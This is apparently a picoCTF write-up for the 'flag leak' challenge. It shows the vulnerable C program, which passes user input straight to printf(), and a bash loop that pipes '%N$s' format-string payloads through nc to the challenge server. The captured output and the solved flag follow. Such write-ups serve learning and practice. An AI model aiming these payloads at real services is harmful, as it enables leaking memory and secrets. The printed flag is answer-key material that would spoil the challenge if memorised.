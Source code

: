 # flag leak

---

AUTHOR: NEEL BHAVSAR

Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view 
source here. And connect with it using:

---

So there's a string format vulnerability............


vuln.c 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

---

let's go for a one liner............

```bash
❯ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60120 | grep -Ei pico; done

FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
^C
```
```bash
❯ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60120 | grep -Ei ctf; done

CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}

```
I tried to filter both flag and pico but the terminal freaked out....

flag:```picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}```

---


